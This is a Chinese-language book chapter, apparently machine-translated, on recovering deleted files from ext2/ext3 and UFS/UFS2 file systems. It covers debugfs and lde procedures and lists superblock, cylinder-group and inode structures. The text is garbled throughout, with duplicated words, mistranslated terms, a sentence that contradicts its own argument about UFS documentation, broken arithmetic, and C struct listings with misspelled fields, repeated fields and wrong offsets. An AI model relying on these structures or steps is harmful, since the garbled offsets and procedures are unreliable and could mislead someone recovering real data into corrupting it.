

**图 8.6.** 文件在磁盘上的顺序，或直接块与间接块的层级结构

与 NTFS 的存储方法相比，这种信息存储方法简单得多；然而，它的空间需求大得多。尽管如此，它相比 NTFS 有一个不可争议的优势：因为所有引用并没有打包在一起，对于文件的每个块，都可以快速找到对应的间接块，即使 inode 被破坏也是。

文件名没有存储在 inode 中。要找到它，需要在目录中搜索所需的名称，目录以如列表 8.6 所示记录数组的形式出现。

### 列表 8.6 目录数组的表示格式

| 偏移量 | 大小 | 说明 |
| :--- | :--- | :--- |
| 0 | 4 | `inode` ; 对 inode 的引用 |
| 4 | 2 | `rec_len` ; 当前记录的长度 |
| 6 | 1 | `name_len` ; 文件名的长度 |
| 7 | 1 | `file_type` ; 文件类型 |
| 8 | ... | `name` ; 文件名 |

当文件被删除时，操作系统会在目录中找到对应的记录，将 inode 字段重置为零，并将前一个记录的长度（`n_len` 字段）增加被删除记录的值。换句话说，被删除的记录被合并到上一个记录中。虽然文件名目前仍然保持完好，但其对应的 inode 引用已被删除。因此，有必要理解哪些名称属于哪个文件。

当文件被删除时，inode 也会发生巨大的变化。引用数（`i_links_count`）被重置为零，并更新最后删除时间（`i_dtime`）。所有文件的块在空闲空间映射（块位图）中被标记为未使用，随后该 inode 也会释放（inode 位图）。

## 已删除文件的恢复技术

在 ext2 中，即使文件是最近删除的，也不可能完全恢复已删除的文件。在这一方面，它逊于 FAT 和 NTFS。至少，文件名丢失了。更准确地说，文件名与其内容之间的关系丢失了。当删除少数几个已知文件时，这种程度是可以忍受的（因为名称被保存了）。但是，如果你删除了几个从未查看过的辅助子目录，该怎么办？

通常情况下，inode 是按照目录表中记录创建的顺序分配的。此外，还有文件扩展名（C, GZ, MPG 等）；可能的映射组合数量通常不很大。尽管如此，以自动模式恢复删除的根目录是可能的。注意，相比之下，NTFS 允许你这样做。

通常，恢复策略如下：扫描 inode 表并选择所有 `i_links_count` 为零的记录。作为一种变体，可以使用过滤器：按删除时间对文件排序。

# 第 8 章：Linux/BSD 下的数据恢复

## 使用 Linux 磁盘编辑器

打开正在编辑的分区：`lde /dev/sdb1`。编辑器会自动确定文件系统类型（在本例中为 ext2），并提示你按任意键继续。继续后，编辑器会自动切换到超级块（superblock）模式，并提示你按 `<I>` 键切换到 inode 模式，或按 `<B>` 键切换到块（block）模式。按 `<I>` 你会发现处于第一个 inode 中。要查看下一个 inode，按 `<Page Down>`。如果需要返回上一个 inode，按 `<Page Up>`。从上到查看所有节点，特别注意 `LINKS` 字段。对于已删除的文件，该字段等于零，`DELETION` 字段指定了时间（注意你必须记住或记下删除时间）。有了合适的 inode，将光标移动到列表中的第一个块并按 `<F2>`。选择块模式，从菜单中查看光标下块的命令（或直接按快捷键 `<Shift+B>`）。

编辑器将移动到删除文件的第一个块。在十六进制模式下查看其内容，尝试判断该文件是否为所需的。。要返回下一个 inode，按 `<I>`。要恢复文件，按 `<Shift+R>`，按 `<R>` 然后指定用于恢复的转储文件名。

也可以通过内容恢复文件。例如，你可能知道删除的文件包含 `hello, world` 字符串。按 `<F>`，按 `<>` 搜索包括删除块在内的所有块。（作为变体，可以使用 `--all` 命令行启动编辑器。）按 `<B>`，当编辑器切换到块模式时，按 `</>` 指定要搜索的 ASCII 字符串。找到所需的块后，从上到下滚动，确保它确实属于所需文件。如果是，按 `<Ctrl+R>` 让编辑器查看指向该块的所有 inode。当前 inode 的编号显示在屏幕底部（注意屏幕顶部显示在 inode 模式下查看的最后一个 inode 编号）。按 `<I>` 键切换到 inode 模式，然后按 `<#>` 并提供你需要查看的 inode 编号。如果删除数据对应你的需求，按 `<Shift+R>` 然后按 `<R>` 将转储保存到磁盘。如果不是，则返回块模式并继续搜索。

# 第二部分：自动与手动硬盘数据恢复

在复杂情况下，当直接和/或间接块列表被破坏时，有必要根据其内容并部分根据给定文件系统采用的磁盘空间分配策略，逐个重组恢复的文件。在进行此操作时，使用 `<W>` 键，它会指示编辑器将当前块添加到转储文件（dump file）。逐个查看所有空闲块（由 `NOT` 字符串标记的空闲块）；找到合适的块后，将其添加到文件末尾。通过这种方法无法恢复高度碎片的二进制文件。然而，这种技术在恢复程序列表时可能有所帮助。

基于这些考虑可以得出的结论如下：使用 `debugfs` 进行手动文件恢复是一个繁琐且缓慢的过程。然而，这个过程是最“透明”且可靠的。对于原始文件名的恢复，这是使用 `debugfs` 类工具的最佳技术。

## 使用 debugfs 进行恢复

通过执行 `debugfs my_dump` 或 `debugfs /dev/sdb1` 命令将编辑过的分区或其副本加载到调试器。如果你计划写入磁盘，则需要指定 `-w` 命令行选项（`debugfs -w my_dump` 或 `debugfs -w /dev/sdb1`）。

要查看删除文件列表，执行 `lsdel`（或 `lsdel_sec`，其中 `t_sec` 是自删除时间经过的秒数）。屏幕将显示删除文件列表。文件将以无名称的形式列出。在 `t_sec` 之前删除的文件（如果你指定了删除时间）将不会列出。


`cat <N>` 命令在终端上显示文本文件的内容。这里，`<N>` 是角括号括起来的 inode 名称。在显示文件时，屏幕会显示一条消息，此类文件必须使用 `dump <N> new_file_name` 命令刷到转储文件中，其中 `new_file_name` 是文件的完全限定名称，文件将被写入原生文件系统——换句话说，写入启动 `debugfs` 调试器的那个文件系统。实现这一目标不需要 `--w` 命令行选项。

如果需要，你可以直接在正在恢复的文件系统上还原该文件（这在恢复大文件时特别为方便）。在这种情况下，`undel <N> undel_file_name` 命令将非常有用，其中 `undel_file_name` 是恢复后分配给文件的名称。

# 第 8 章：Linux/BSD 下的数据恢复

执行此任务时，请记住 `undel` 命令本质上是极具攻击性且破坏性的。它会覆盖在目录表中遇到的第一个空闲记录，导致无法恢复原始文件名。


`stat <N>` 命令以可读格式显示 inode 内容，而 `nlink <N>` 命令允许你根据自己的意愿对其进行编辑。对于文件的手动恢复（我不希望我的敌人也遭遇这种事事），有必要将链接计数设置为一并将删除时间重置为零。之后，你应该执行 `setext <N>` 命令将此 inode 标记为已用，并对文件的每个块执行 `setblock X`。这里，`x` 是块编号（要查看文件占用的块列表，使用 `stat` 命令，与 `lde` 不同，它不仅会显示直接块，还会显示间接块，这要方便得多）。现在只需为文件分配一个名称。这可以通过使用 `ln <N> undel_file_name` 命令创建目录链接来实现，其中 `undel_file_name` 是恢复后分配给文件的名称（必要时还包括路径）。


创建目录链接会不可逆地覆盖删除文件的原始名称。

之后，执行 `dirty` 命令以在下次重启后强制进行文件系统检查用，或者退出调试器并使用 `-f` 命令行选项手动启动 `fsck`，这将强制进行文件系统检查。

现在，是时候恢复原始文件名了。考虑最简单的情况：包含被删除文件的目录（父目录）仍然完好。执行 `stat dir_name` 命令并记录你报告的 inode 编号。然后执行 `dump <INODE> dir_file` 命令，其中 `INODE` 是报告的 inode 编号，`dir_file` 是写入转储内容的原生文件系统文件名。然后将转储文件加载到十六进制编辑器中并在原始格式查看其内容。所有文件名都将在那里。如果需要，可以编写一个过滤工具，只显示删除文件的名称。使用 Perl 完成这不会超过十分钟。

如果父目录也被删除了怎么办？在这种情况下，它也会被标记为删除。显示已删除的 inode 列表，从列表中选择目录，形成属于它们的块列表，并将转储保存到文件中。之后，你可以手动或使用过滤工具查看此文件。

# 216 第二部分：自动与手动硬盘数据恢复



| 名称名称 | 大小 | 创建时间 | 修改时间 | 文件 ID | 父目录 ID |
|---|---|---|---|---|---|
| Partition1 | 12288 | 16/02/2005 16:14:34 | 15/02/2005 16:14:34 | 29 | 18 |
| MetaFiles | 256 | 16/02/2005 16:14:34 | 15/02/2005 16:14:34 | 43 | 18 |
| lost+found | 11972 | 16/02/2005 18:15:42 | 09/03/2005 09:23:06 | 44 | 10 |
| Partition2 | 0 | 16/02/2005 16:16:17 | 16/02/2005 16:16:13 | 61 | 18 |
| lost+found | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 49 | 10 |
| branch-reduce.idx | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 55 | 10 |
| branch-reduce.journal | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 51 | 10 |
| creump.idx | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 53 | 10 |
| creump.journal | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 58 | 10 |
| go | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 54 | 10 |
| hf.idx | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 62 | 10 |
| hf.journal | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 67 | 10 |
| me.idx | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 68 | 10 |
| me.journal | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 63 | 10 |
| my.idx | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 64 | 10 |
| my.journal | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 65 | 10 |
| root.idx | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 70 | 10 |
| root.journal | 0 | 16/02/2005 16:16:13 | 16/02/2005 16:16:13 | 71 | 10 |

> 图 8.8 R-Studio 工具可以恢复 ext3 分区上的删除文件；但并没有这些文件（其长度为零，意味着索引列表已被擦除）。

问题在于，同一个块在不同时间可能属于不同的文件，因此属于不同的间接块。如何判断哪一个是正确的？这是一项简单的任务。如果至少有一个索引块指向被占用的块，间接块就属于很久以前删除的文件，因此没有意义。遗憾的是，`debugfs` 对 ext3 的支持非常差。特别是 `ls` 命令总是显示删除文件的数量为零，即使你删除了整个分区。因此，选择文件系统的问题在读了某些《Linux 入门》后并没有那么简单。对于工作站和家用电脑ext3 的优势并不显而易见，也不容置疑。

## 第 8 章：Linux 下的数据恢复

### 推荐阅读

- 《第二文件系统的设计与实现》（Design and Implementation of the Second Filesystem）——来自开发者的详细描述。从 ext2intro.html 下载。
- 《Linux Ext2fs 删除》（Linux Ext2fs Undeletion）——关于 ext2 分区删除文件的简短说明，见 http://www.tld.org/HOWTO/Ext2fs-Undeletion.html。
- 《Ext2fs 目录结构删除》（Ext2fs Undeletion of Directory Structures）——关于 ext2 分区删除目录的简短手册，见 http://www.faqs.org/docs/Linux-mini/Ext2fs-Undeletion-Dir-Struct.html。
- 《如何删除》（How-Undelete）——关于 ext2 分区删除文件的另一份手册，见 ide://sourceforge.net/UNDEASE.txt。

### 在 UNIX 文件系统下恢复删除的文件

UNIX 系统（UFS）是 BSD 的主文件系统，并默认安装。大多数商业 UNIX 版本使用 UFS 或类似的系统。与文档齐全的 ext2fs 不同，UFS 在文献中的描述非常出色。源代码是获取关于该文件系统的可靠来源，而了解它的细节并非易事。有很多工具可以恢复数据（或至少尝试这样做）；但在实践中，所有此类工具证明都是不可用的。这并不奇怪：在 UFS 上几乎无法自动恢复删除的文件。然而，只要知道方法，就可以实现这一目标。

## 历史


UFS 是 s5 的后代——1974 年为 UNIX 编写的第一个文件系统。s5 文件系统的组织极其糟糕且运行缓慢（根据某些来源，其性能仅比原始磁盘高 2% 到 5%）。尽管如此，它已经包含了超级块（`superblock`）、`inode` 和数据块的概念。

在 1983 年发布的 4.2 BSD 发行版开发期间，原始文件系统得到了改进。扩展列表包括长文件名、符号链接等。UFS 就此诞生了。

在明年发布的 4.3 BSD 中，改进更加激进且具有性。碎片（`fragments`）和气道组（`cylinder groups`）的概念出现。文件系统的运行速度显著提高，因此获得了它的名字——快速文件系统（Fast File System, FFS）。

后续所有的 4.x BSD 产品线版本都包含了 FFS。文件系统再次被修改。为了支持更大的磁盘，有必要增加所有地址字段的宽度：32 位碎片编号被 64 位编号取代。还引入了其他改进，尽管它们并不那么显著。

事实上，有三种在基本数据结构层面上互不兼容的不同文件系统。然而，例如，“UFS FAQ”声称 UFS（以及 UFS2）定义了磁盘布局。UFS 建立在 UFS（1 或 2）之上，后者提供了目录结构信息和各种基于磁盘的优化。点在于，如果你查看文件系统的源代码，你会发现两个子目录——`/ufs` 和 `/fs`。`/fs` 子目录包含超级块的定义，这是负责数据布局的基础结构；而 `/ufs` 包含 `inode` 和目录结构的定义，这反驳了前述陈述（即认为情况应该是相反的）。

为了避免术语混淆，我将 UFS 和 UFS2 解释为主 4.5 BSD 文件系统。

## UNIX 文件系统结构

通常情况下，UFS 与 `ext2fs` 非常相似。它们具有相同的 `inode`、数据块、文件和目录。然而，也有差异。在 `ext2fs` 中，整个分区只有一组 `inode` 和一组块。相比之下，UFS 将分区分为若干个大小相等的区域，称为气道组（`cylinder groups`）。每个区域都有自己的 `inode` 组和数据块组。换句话说，`inode` 只描述它们所属区域的块。这提高了文件系统的性能，因为硬盘磁头的移动距离更短。此外，这简化了发生轻微损坏时的数据恢复程序，正如事实所示，通常只有第一组 `inode` 被损坏了。很难想象硬盘发生什么事会损坏所有组。可能只有将磁盘放在液压机下才能实现。

对比 s5 文件系统和 UFS 的图如图 8.9 所示。在 UFS 中，每个块被划分为若干固定大小的碎片，防止了文件尾部空空间的浪费。因此，使用大块并不浪费。相反，它提高了性能并防止碎片化。如果一个文件在两个不连续的块中使用多个碎片，它会自动移动到另一个位置，即碎片较少的空闲区域。因此，UFS 中的文件碎片化可以忽略不计，或者不存在。这大大简化了删除文件和损坏数据的恢复。

# 220 第二部分：自动与手动硬硬盘数据恢复

| 启动块 | 启动块 | 启动块 |
|---|---|---|

| 超块 | 超块 | 超块 |
| inode 列表 | inode 列表 | inode 列表 |
| 磁道组映射 | 磁道组映射 | 磁道组映射 |
| 存储块 | 存储块 | 存储块 |

图 8.10. 连续的磁道组

寻址实现方式有两种：以字节为单位的物理偏移（从磁道组的开始处计算，或者少见地从 UFS 分区的开始处计算），或者以从同一点复制的碎片数量来计算。假设块大小为 16 KB，分为 8 个碎片。在这种情况下，第 69 扇区的偏移量等于 512 * 69 = 35328 字节，或者 1024 * ((16/8)/512) * 69 = 276 个碎片。

启动扇位于分区的开头。之后是一个或多个磁道组（图 8.10）。为了安全起见，超块副本在每个组中都进行了复制。然而，启动扇没有复制，这是出于统一性考虑。系统为它分配了空间；结果是，每个组中的相对块寻址保持不变。

在 UFS 中，超块位于距离分区起始 8192 字节的偏移处，对应第 16 个扇区。在 UFS2 中，它被移动到距离起始处 65,536 字节（128 个扇区），为磁盘标签和操作系统初始加载器留出了空间。对于真正的大型系统（在源代码中称为 `piggy`），可以将超块移动到 262,144 字节的地址（相当于 512 个扇区）。

# 第 8 章：Linux/BSD 下的数据恢复 221

除信息外，超块包含以下内容：

- `cblkno` — 第一组磁道块的偏移量，以碎片为单位并从分区开始处计数
- `fs_iblkno` — 第一组磁道中第一个 `inode` 的偏移量，从分区开始处以碎片计数
- `fs_dblkno` — 第一组磁道中第一个数据块的偏移量，从分区开始处以碎片计数
- `fs_ncog` — 磁道组的数量
- `fs_bsize` — 每个块的大小（单位：字节）
- `fs_fsize` — 每个碎片的大小（单位：字节）
- `fs_frag` — 每个块中的碎片数量
- `fs_fpg` — 以块为单位的每个磁道组的大小（也可以通过 `fs_cgsize` 找到）

要将碎片偏移转换为扇区号，使用以下公式：`sec_n(fragment_offset) = fragment_offset * (fs_bsize/fs_frag/512)`。它有一个更短体：`sec n(fragment_offset) = fragment_offset *`

超块结构定义在 `/src/ufs/fs/fs.h` 文件中。在简化形式下，它所示于列表 8.7。

### 列表 8.7. 超块格式（省略了次要字段）


```c
struct fs {
    0x00 /*      int32_t fs_firstfield;      /* 历史文件系统链表， */
    0x04 /*      int32_t fs_unused_1;       /* 用于内存中超块 */
    0x08 /*      ufs_daddr_t fs_dblkno;      /* fs 中超块的地址 */
    0x0C /*      ufs_daddr_t fs_cbkno;       /* fs 中磁道块的偏移 */
    0x10 /*      ufs_daddr_t fs_iblkno;     /* fs 中 inode 块的偏移 */
    0x14 /*      ufs_daddr_t fs_dblkno;      /* cg 后第一个数据块的偏移 */
    0x18 /*      int32_t fs_cgoset;     /* 磁道中的偏移量 */
    0x1C /*      int32_t fs_cgmask;       /* 用于计算 fs_ntrak */
    0x20 /*      time_t fs_time;          /* 最后写入时间 */
    0x24 /*      int32_t fs_size;         /* fs 中块的数量 */
    0x28 /*      int32_t fs_dsize;        /* fs 中数据块的数量 */
    0x2C /*      int32_t fs_ncg;         /* 磁道组的数量 */
    0x30 /*      int32_t fs_bsize;       /* fs 中基础块的大小 */
    0x34 /*      int32_t fs_fsize;       /* fs 中碎片的大小 */
    0x38 /*      int32_t fs_frag;        /* fs 中块的碎片数量 */
    /* 这些是配置参数。 */
    0x3C /*      int32_t fs_minfree;      /* 空闲块的最小比例 */
    0x40 /*      int32_t fs_roay;       /* 最佳块 */
    0x44 /*      int32_t fs_rps;         /* 每秒磁盘 */
    /* 这些由磁道组的数量的大小决定。 */
    0x98 /*      ufs_daddr_t fs_csaddr;    /* 磁道组区域地址 */
    0x9C /*      int32_t fs_cssize;     /* 磁道区域的大小 */
    0xA0 /*      int32_t fs_cogsize;     /* 磁道组大小 */
    /* 这些字段可以通过其他字段计算。 */
    0xB4 /*      int32_t fs_cpg;         /* 每组磁道数 */
    0xB8 /*      int32_t fs_ipg;         /* 每组 inode 数 */
    0xBC /*      int32_t fs_fpg;         /* 每组块数 */
    /* 这些字段在挂载时清零。 */
    0xD0 /*      int8_t fs_mod;         /* 超块已修改 */
    0xD1 /*      int8_t fs_clean;       /* 文件系统整洁 */
    0xD2 /*      int8_t fs_ronly;       /* 只读读取 */
    0xD3 /*      int8_t fs_flags;       /* 见 fs_flags */
    0xD4 /*      u_char fs_fsmnt[MAXNTLEN]; 挂载于 */
};
```

# 第 8 章：Linux/BSD 下的数据恢复 223

在超块之后，在某个偏移处，是第一组磁道。在每个组的开头，有一个名为 `cg` 的辅助结构，描述该磁道组。它包含了 55h 02h 09h 序列，如果超块被破坏，可以通过它找到所有幸存组（所有后续组的起始地址通过组号乘以其大小 `fs_cgsize` 计算）。

其他重要参数列表包含以下字段：

- `cg_cgx` — 组的序号，从零开始计数
- `cg_old_niblk` — 指定组中的 inode 数量
- `cg_ndblk` — 指定组中的块数量
- `csum` — 该组中空闲 inode 和数据块的数量
- `cg_iusedoff` — 已占用 inode 位图偏移，以字节为单位并从组开始处计数
- `cg_freeoff` — 空闲空间偏移（单位：字节），从组开始处计数

### 列表 8.8. 磁道描述符

```c
#define CG_MAGIC 0x090255
#define MAXFRAG 8
struct cg {
    0x00 /*      int32_t cg_firstfield; /* 历史磁道组链表 */
    0x04 /*      int32_t cg_magic;      /* 魔数数 */
    0x08 /*      int32_t cg_old_time;   /* 最后写入时间 */
    0x0c /*      int32_t cg_cgx;        /* 第 C 磁道组 */
    0x10 /*      int16_t cg_old_ncyl;   /*此 cg 中的磁道数 */
    0x12 /*      int16_t cg_niblk;      /* 此 cg 中 inode 块的数量 */
    0x14 /*      int32_t cg_ndblk;      /* 此 cg 中数据块的数量 */
    0x18 /*      struct csum_cg_cs;    /* 磁道摘要信息 */
    0x28 /*      int32_t cg_rotor;      /* 最后使用块的位置 */
    0x2c /*      int32_t cg_froter;     /* 最后使用碎片的位置 */
    0x30 /*      int32_t cg_irotor;     /* 最后使用 inode 的位置 */
    0x34 /*      int32_t cg_frsum[MAXFRAG]; /* 可用碎片计数 */
    0x54 /*      int32_t cg_old_btree;  /* 每磁道的块数（uint32） */
    0x58 /*      int32_t cg_bof;     /* 空闲块的位置 */
    0x5C /*      int32_t cg_iusedf;     /* 已占用 inode 位图（uint8） */
    0x60 /*      int32_t cg_freeoc;     /* 空闲块图（uint8） */
    0x64 /*      int32_t cg_nextfree;   /* 下一个可用空间 */
    0x68 /*      int32_t cg_clustersum; /* 簇计数（uint32） */
    0x6C /*      int32_t cg_clustero; /* 空闲簇图（uint8） */
    0x70 /*      int32_t cg_nclusterks; /* 磁道中的簇数量 */
    0x74 /*      int32_t cg_niblk;      /* 磁道中 inode 块的数量 */
    0x78 /*      int32_t cg_initeik;    /* 最后初始化的 inode */
    0x7C /*      int32_t cg_sparecon[3]; /* 留备未来使用 */
    0x00 /*      ufs_time_t cg_time;     /* 最后写入时间 */
    0x00 /*      int64_t cg_sparecon[4]; /* 留备未来使用 */
    0x00 /*      u_int8_t cg_space[1];   /* 磁道组映射的空间 */
    /* 实际上更长 */
};
```

# 第 8 章：Linux/BSD 下的数据恢复 225 页

- `di_size` — 以字节为单位的文件大小
- `di atime`/`di atimesec` — 文件最后一次访问时间
- `di mtime`/`di mtimesec` — 文件最后一次修改时间
- `di ctime`/`di ctimesec` — 最后一次索引节点（inode）修改时间
- `di_db` — 文件前 12 个块的地址，从圆柱组开始按分块（fragments）计数
- `di_ib` — 间接块的地址，从组开始按分块（fragments）计数


inode 结构定义在 `/src/ufs/ufs/inode.h` 中。对于 `UFS1`，其显示形式如列表 8.9 和图 8.11 所示。

## 列表 8.9.UFS1 中的 inode 结构

```
struct dinode {
    /* 0x00 */  u_int16_t di_mode;      /* 0: IFMT, 权限；见下文。 */
    /* 0x02 */  int16_t    di_nlink;      /* 2: 文件链接计数 */
    /* 0x04 */  union {
        int32_t     di_oldids[2];      /* 4: 旧的未使用 ID 和组 ID */
        int32_t     inumer;         /* 6: LFS: 索引节点号 * */
    } di_u;
    /* 0x08 */  u_int64_t di_size;        /* 8: 文件字节数 */
    /* 0x10 */  int32_t    di_atime;       /* 16: 最后访问时间 * */
    /* 0x14 */  int32_t    di_atimesec;    /* 20: 访问时间 * */
    /* 0x18 */  int32_t    di_mtime;       /* 24: 最后修改时间 * */
    /* 0x1C */  int32_t    di_mtimesec;    /* 28: 最后修改时间 * */
    /* 0x20 */  int32_t    di_ctime;        /* 32: 最后索引节点更改时间 */
    /* 0x24 */  int32_t    di_ctimeec;     /* 36: 最后索引节点更改时间 * */
    /* 0x28 */  ufs_d_t di_db[DBADDDR];     /* 40: 直接磁盘块 * */
    /* 0x58 */  ufs_d_t di_ib[NIADDDR];     /* 88: 间接磁盘块 * */
    /* 0x64 */  u_int32_t  di_flags;        /* 100: 状态标志 (chflags) * */
    /* 0x68 */  int32_t    di_gen;          /* 108: 生成数 * */
    /* 0x70 */  u_int32_t  di_uid;          /* 112: 文件所有者 * */
    /* 0x74 */  u_int32_t  di_gid;          /* 116: 文件组 * */
    /* 0x78 */  int32_t    di_spare[2];     /* 120: 预留；当前未使用 * */
};
```

| 类型/模式 | 链接计数 |
|---|---|
| 用户 ID | 组 ID |
| 文件大小（字节） | |
| 最后访问时间 | |
| 最后修改时间 | |
| 创建时间 | |
| 12 个数据块地址 | |
| 第一级索引块地址 | |
| 扩展（七个 4 字节字） | |
| 32 位 | |

**图 8.11. inode 结构的设计**

在 `UFS2` 中，inode 结构被经过了大幅修改（见列表 8.10）。出现了许多新字段，地址字段的宽度也倍增了。这对于实际数据恢复意味着什么？所有字段的偏移量都发生了变化。然而这并不重要，因为处理 inode 的通用原则保持不变。

# 第 8 章：Linux/BSD 下的数据恢复 227 页

## 列表 8.10.UFS2 中的 inode 结构

```
struct ufs2_inode {
    /* 0x00 */  int16_t    di_mode;         /* 0x0000: 0: IFMT, 权限；见下文。 */
    /* 0x02 */  int16_t    di_nlink;       /* 0x0002: 2: 文件链接计数 */
    /* 0x04 */  int32_t     di_uid;         /* 0x0004: 4: 文件所有者 */
    /* 0x08 */  int32_t     di_gid;         /* 0x0008: 8: 文件组 */
    /* 0x0C */  int32_t     di_blksize;    /* 0x000c: 12: inode 块大小 */
    /* 0x10 */  int64_t     di_size;        /* 0x0010: 16: 文件字节数 */
    /* 0x18 */  int64_t     di_blocks;      /* 0x0018: 24: 实际持有 */
    /* 0x20 */  ufs_time_t  di_atime;      /* 0x0020: 32: 最后访问时间 */
    /* 0x28 */  ufs_time_t  di_mtime;      /* 0x0028: 40: 最后修改时间 */
    /* 0x30 */  ufs_time_t  di_ctime;       /* 0x0030: 48: 最后索引节点更改时间 */
    /* 0x38 */  ufs_time_t  di_birthtime;  /* 0x0038: 56: 创建时间 */
    /* 0x40 */  int32_t     di_mtimsec;   /* 0x0040: 64: 最后修改时间 */
    /* 0x44 */  int32_t     di_atimec;  /* 0x0044: 68: 最后访问时间 */
    /* 0x48 */  int32_t     di_ctimec;  /* 0x0048: 72: 最后索引节点更改时间 */
    /* 0x4C */  int32_t     di_birthnsec;  /* 0x004c: 76: 创建时间 */
    /* 0x50 */  int32_t     di_gen;         /* 0x0050: 80: 生成数 */
    /* 0x54 */  int32_t     di_kernflags;   /* 0x0054: 84: 内核标志 */
    /* 0x58 */  int32_t     di_extflags;   /* 0x0058: 88: 状态标志 (chflags) */
    /* 0x5C */  int32_t     di_extsize;    /* 0x005c: 92: 扩展属性块 */
    /* 0x60 */  ufs2_daddr_t  di_extb[NKADDR];  /* 0x0060: 96: 扩展属性块 */
    /* 0x70 */  ufs2_daddr_t  di_id[NDADDR];   /* 0x0070: 112: 直接磁盘块 */
    /* 0xD0 */  ufs2_daddr_t  di_ibi[NIADDR];   /* 0x00d0: 208: 间接磁盘块 */
    /* 0xE8 */  int64_t      di_spare[3];     /* 0x00e8: 232: 预留；当前未使用 */
};
```

| 文件 | 5 | 目录 | 3 | 文件 | 组 |

**图 8.12. 文件名与目录的存储**

文件名存储在目录中（图 8.12）。inode 中没有文件名。`UFS` 将目录视为特定类型的文件，可以存储在圆柱组的任何位置。`UFS` 支持多种类型的目录哈希；然而，这对于存储结构没有影响。名称存储在称为 `DIRBLKSZ` 的块中，按 4 字节边界对齐。

直接结构定义在 `/src/ufs/ufs/dir.h` 文件（见列表 8.11）。它包含以下信息：描述给定文件的 inode 号、其类型、名称以及用于在块中查找下一个直接结构的长度。

### 列表 8.11. 存储文件名和目录的直接结构

```
struct direct (
    /* 0x00 */ u int32_t dino;           /* 条目的索引节点号 */
    /* 0x04 */ u int16_t dclen;         /* 此记录的长度 */
    /* 0x06 */ u int8_t dtype;          /* 文件类型；见下文 */
    /* 0x07 */ u int8_t damlen;         /* 字符串长度 */
    /* 0x08 */ char d_name[MAXLEN];     /* 带有 MAXLEN 的名称 */
);
```


（例如，如下：`/dev/ad0s1`）。作为一种变体，可以将任何带有 Windows PE 的可启动光盘插入到光驱驱动器中，并使用任何 Windows 编辑器，例如 Microsoft Disk Probe 或 Runtime DiskExplorer。从可启动的 MS-DOS 软盘启动 Norton Disk Editor 也是如此（尽管它不支持大磁盘和 SCSI 设备）。最后，可以启动 KNOPPIX 或任何面向数据恢复的 Live Linux 光盘（尽管大多数恢复类发行版——特别是 Frenzy 0.3——并不包含磁盘编辑器）。

如你所见，有很多恢复工具可以选择。

## 文件恢复技术

我将从坏消息开始描述文件恢复技术。因为在删除文件的过程中，指向前 12 个直接块和 3 个间接块的引用会被不可逆转地覆盖，因此自动数据恢复是不可能的。删除的文件只能通过其内容找到。搜索必须在空空间内进行。这就是位于分组组描述符末后的位图（`bitmaps`）大显身场的地方。

如果你足够幸运且文件是非碎片化的（记住，如前所述，在 UFS 上，碎片要么微乎其微，要么没有碎片），那么恢复将取决于你的技巧。只需选择选定的扇区组并将其写入磁盘（注意，不要写入正在恢复的分区）。例如，你可以通过网络将文件传输到另一台计算机。遗憾的是，文件的长度字段在删除过程中会被无情地覆盖；因此，必须猜测文件的实际大小。这听起来比实际更吓。最后一个片段的未用尾部会被零覆盖，这可以作为一个很好的引导线。唯一的问题是，某些类型的文件尾部包含一定数量的零，如果丢弃这些零，某些文件可能会无法使用；因此，你必须在这里进行一些实验。

